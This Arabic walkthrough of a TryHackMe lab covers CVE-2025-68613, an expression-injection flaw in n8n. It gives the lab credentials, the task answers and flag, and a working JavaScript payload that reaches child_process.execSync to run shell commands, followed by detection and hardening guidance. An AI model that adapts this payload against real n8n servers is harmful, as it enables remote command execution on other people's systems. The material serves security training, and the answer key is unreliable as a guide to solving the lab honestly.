

# n8n: CVE-2025-68613 · الدليل التقني والتوثيق الشامل للغرفة

---

## 1. الترويسة والبيانات الوصفية (Metadata & Room Header)

- **اسم الغرفة بالإنجليزية:** n8n: CVE-2025-68613
- **الاسم بالعربية:** إن ثمانية إن: تحليل ثغرة حقن التعابير CVE-2025-68613
- **المعرف البرمجي (Slug):** `n8ncve202568613`
- **المسار التعليمي:** Junior Penetration Tester (الوحدة 09: معرفة الثغرات الأمنية - Vulnerability Knowledge)
- **الترتيب داخل الوحدة:** الغرفة 05 من أصل 09
- **مستوى الصعوبة:** سهل (Easy)
- **نوع التقييم:** عملي وواقعي (Hands-on Walkthrough & CVE Analysis)
- **الوسوم (Tags):** `CVE-2025-68613`, `n8n`, `RCE`, `Node.js`, `Expression Injection`, `child_process`, `Workflow Automation`

---

## 2. نظرة عامة وملخص تنفيذي (Room Overview & Executive Summary)

تستعرض هذه الغرفة تحليلاً عملياً وتفصيلياً للثغرة الأمنية البالغة الخطورة **CVE-2025-68613** في منصة أتمتة مسارات العمل الشهيرة **n8n** المبنية على بيئة Node.js، والتي حصلت على تقييم خطورة **9.9 (Critical)** على مقياس CVSS v3.1 وتؤثر على الإصدارات من `0.211.0` حتى `1.120.3`. تتيح المنصة للمستخدمين كتابة تعابير برمجية ديناميكية داخل الأقواس المعقوفة المزدوجة `{{ }}` لتسهيل معالجة البيانات بين العقد. ونظراً لغياب العزل الحقيقي لسياق التشغيل (Context Isolation)، يتمكن أي مستخدم يمتلك صلاحية إنشاء أو تعديل مسارات العمل من الرجوع إلى كائن العملية الشامل في Node.js واستيراد وحدة `child_process`، مما يحول حقن التعابير البسيط إلى تنفيذ كامل للأوامر التشغيلية (RCE) على الخادم واستخراج الراية `THM{n8n_exposed_workflow}`.

---

## 3. الهيكلية وتحليل سطح الهجوم (Architecture & Attack Surface Analysis)



---

## 4. الأهداف التعليمية ومصفوفة المهارات (Pedagogical Objectives & Skills Matrix)

| المهارة المستهدفة | الوصف التقني للقدرة المكتسبة | معيار التحقق والتقييم |
| :--- | :--- | :--- |
| **معمارية منصات الأتمتة** | فهم خطوط سير البيانات في بيئات n8n وإمكانية تحويلها لمتجهات هجوم. | إنشاء مسار عمل متكامل. |
| **تحليل تصعيد السياق في Node.js** | تتبع شجرة الكائنات العامة من `this` إلى `process.mainModule.require`. | تحديد وحدة `child_process`. |
| **بناء حمولات حقن التعابير** | صياغة دالة مجهولة ذاتية التنفيذ (IIFE) لتفادي قيود المتغيرات المباشرة. | تنفيذ أوامر النظام عبر `execSync()`. |
| **استخراج الرايات والأدلة** | قراءة ملفات النظام المحمية من داخل حاوية الخادم. | استرجاع الراية `THM{n8n_exposed_workflow}`. |
| **هندسة الكشف وقواعد سيجما** | تصميم قواعد كشف على مستوى الخادم الوكيل وتسجيل أجسام الطلبات (Request Bodies). | مراجعة قواعد Sigma وسجلات Nginx. |

---

## 5. الجدول التفصيلي لمهام الغرفة (Comprehensive Task Breakdown)

| رقم المهمة | اسم المهمة الأصلي | العنوان بالعربية | السؤال الأساسي | القيمة المعتمدة |
| :---: | :--- | :--- | :--- | :---: |
| **Task 01** | Introduction | مقدمة: تحليل ثغرة n8n | Let’s dive into the technical details. | `No answer needed` |
| **Task 02** | Technical Background | الخلفية التقنية وتصعيد سياق التشغيل | Module name allowing system command execution? | `child_process` |
| **Task 03** | Exploitation | الاستغلال العملي واستخراج الراية | What is the flag? | `THM{n8n_exposed_workflow}` |
| **Task 04** | Detection | الكشف وهندسة الرصد الأمني | Ensure security solutions detect threats... | `No answer needed` |
| **Task 05** | Conclusion | الخاتمة وإرشادات التحصين | Consider checking other rooms... | `No answer needed` |

---

## 6. المنهجية واستراتيجية الاستطلاع (Methodology & Reconnaissance Strategy)

1. **فحص المنفذ والخدمة:** استكشاف المنفذ الافتراضي لخادم n8n وهو المنفذ `5678`، وتحديد الإصدار من خلال لافتات الردود الترويسية.
2. **المصادقة واستكشاف الصلاحيات:** تسجيل الدخول للوحة التحكم بالبيانات المتاحة للتحقق مما إذا كان حساب المستخدم يمتلك صلاحية تعديل المسارات.
3. **اختبار حقن التعابير المبدئي:** إدخال دالة حسابية بسيطة مثل `{{ 7 * 7 }}` للتأكد من قيام المحرك بمعالجة الجافاسكربت ديناميكياً.
4. **تصعيد السياق نحو بيئة التشغيل:** استدعاء كائن `this.process` لاختبار إمكانية الوصول إلى متغيرات بيئة Node.js.
5. **استيراد وحدة الأوامر وتنفيذ الاستغلال:** استدعاء `child_process.execSync` لتنفيذ الأوامر واستخراج ملف الراية المطلوب.

---

## 7. الشرح العملي المتعمق لكل محور (Deep-Dive Practical Walkthrough)

### أ. تسجيل الدخول وتجهيز مسار العمل
- فتح المتصفح على العنوان: `http://10.10.14.50:5678`.
- تسجيل الدخول: `tryhackme@thm.local` / `Try12345!`.
- النقر على زر **"Start from scratch"**.
- إضافة العقدة الأولى: **Manual Trigger**.
- إضافة العقدة الثانية وتوصيلها: **Edit Fields (Set)**.

### ب. إعداد الحمولة وتنفيذ الأوامر
داخل عقدة **Edit Fields**:
1. النقر على **Add Field**.
2. تعيين الاسم: `exploit`.
3. التحويل لوضع التعابير (Expression)، وإدخال الحمولة التالية:
```javascript
{{ (function(){ 
    return this.process.mainModule.require('child_process')
               .execSync('cat /flag.txt')
               .toString(); 
})() }}
```
4. النقر على **"Test step"** (أو **Execute step**).
5. تظهر نتيجة التنفيذ فورياً في جدول المخرجات متضمنة الراية: `THM{n8n_exposed_workflow}`.

---

## 8. تحليل الثغرات وآليات الاستغلال (Vulnerability Analysis & Exploitation Mechanics)

### أ. ثغرة حقن التعابير (Expression Injection - CWE-94)
- **الخلل البرمجي:** لم يتم تقييد سياق تشغيل التعابير داخل بيئة V8 معزولة تماماً (مثل مكتبة `isolated-vm`). بدلاً من ذلك، كان يتم تقييم التعابير داخل نفس مساحة الذاكرة الخاصة بتطبيق n8n.
- **سلسلة التجاوز:** على الرغم من إخفاء دالة `require` المباشرة من النطاق المحلي، فإن شجرة الكائنات العامة تحتفظ بمرجعها عبر المسار:
  `this ⟶ process ⟶ mainModule ⟶ require`

---

## 9. الكشف وسجلات النظام والأثر الجنائي (Detection, Logging & Forensics)

- **سجلات الخادم الوكيل العكسي (Nginx Request Body Logging):**
  التقاط حمولة الاستغلال عبر تسجيل جسم الطلب في المسار `/rest/workflows`:
  ```text
  10.10.14.50 - tryhackme [19/Nov/2026:12:29:40] "POST /rest/workflows HTTP/1.1" 200 ... "child_process"
  ```
- **سجلات العمليات في أنظمة EDR (Sysmon Event ID 1 / Auditd):**
  ظهور عملية `sh` أو `cat` تنطلق كعملية فرعية من المسار التشغيلي لـ `/usr/local/bin/node /usr/local/bin/n8n`.

---

## 10. التحصين والمعالجة الجذرية (Hardening, Mitigation & Remediation Guide)

1. **الترقية الفورية للإصدارات المرقعة:**
   تحديث n8n إلى الإصدارات `1.120.4`، أو `1.121.1`، أو `1.122.0` فما فوق، حيث تم إعادة بناء محرك التعابير ليعزل النطاق تماماً ويمنع الوصول لكائنات `process`.
2. **تطبيق التحكم في الوصول المبني على الأدوار (RBAC):**
   سحب صلاحيات إنشاء وتعديل مسارات العمل من المستخدمين غير الموثوقين وتعيينهم في أدوار القراءة فقط (Viewer Roles).
3. **عزل الحاويات البرمجية (Docker Hardening):**
   تشغيل حاوية n8n بمستخدم غير جذري (`user: "1000:1000"`) ومنع حقن صلاحيات إضافية (`no-new-privileges:true`).

---

## 11. الدفاع في العمق والبيئات المؤسسية (Defense-in-Depth)

- **حماية أسرار مسارات العمل:** استخدام أنظمة إدارة المفاتيح الخارجية (HashiCorp Vault) بدلاً من تخزين الرموز السرية داخل قاعدة بيانات n8n المحلية.
- **تقييد الاتصالات الخارجية (Egress Filtering):** منع خادم الأتمتة من الاتصال بعناوين IP خارجية مجهولة للحد من إمكانية تثبيت أدوات اختراق إضافية أو إرسال اتصالات عكسية (Reverse Shells).

---

## 12. مقارنة الأدوات والأوامر السريعة (Tool Comparison & Quick Reference)

| المكون / الأداة | دوره في سيناريو n8n | الاستخدام الأمني |
| :--- | :--- | :--- |
| **n8n** | منصة أتمتة مسارات العمل | التطبيق المستهدف المصاب بـ CVE-2025-68613 |
| **child_process** | وحدة Node.js الأصلية لإدارة العمليات | الوحدة المستغلة لتنفيذ أوامر نظام التشغيل |
| **Sigma Rule** | قاعدة كشف أمني قياسية | رصد محاولات الحقن في سجلات الويب |
| **Nginx Lua** | خادم وكيل متقدم | تسجيل محتويات أجسام طلبات POST لتوفير الرؤية الجنائية |

---

## 13. الأخطاء الشائعة وحل المشكلات (Common Pitfalls & Troubleshooting)

1. **نسيان استدعاء الدالة المجهولة `()`:** يجب إحاطة التعبير بدالة واستدعاؤها فورياً `(function(){ ... })()` حتى يعيد المحرك القيمة النصية الناتجة عن التنفيذ.
2. **استخدام أوامر معطلة أو مجمدة:** تنفيذ أوامر تتطلب تفاعلاً مع المستخدم عبر `execSync` يؤدي إلى تجميد عملية n8n بالكامل.
3. **إغفال تحويل المخرجات إلى نص:** ترجع الدالة `execSync` مخزناً مؤقتاً خاماً (Buffer)، لذا يجب دائماً إنهاء الاستدعاء بـ `.toString()`.

---

## 14. المراجع والمعايير الدولية (References & Standards)

- رابط الغرفة الرسمي على TryHackMe: [https://tryhackme.com/room/n8ncve202568613](https://tryhackme.com/room/n8ncve202568613)
- معيار MITRE للثغرة: [CVE-2025-68613 Record](https://cve.mitre.org/)
- توثيق وحدة العمليات في Node.js: [Node.js child_process API](https://nodejs.org/api/child_process.html)
- معيار MITRE للحقن البرمجي: [CWE-94 Code Injection](https://cwe.mitre.org/data/definitions/94.html)
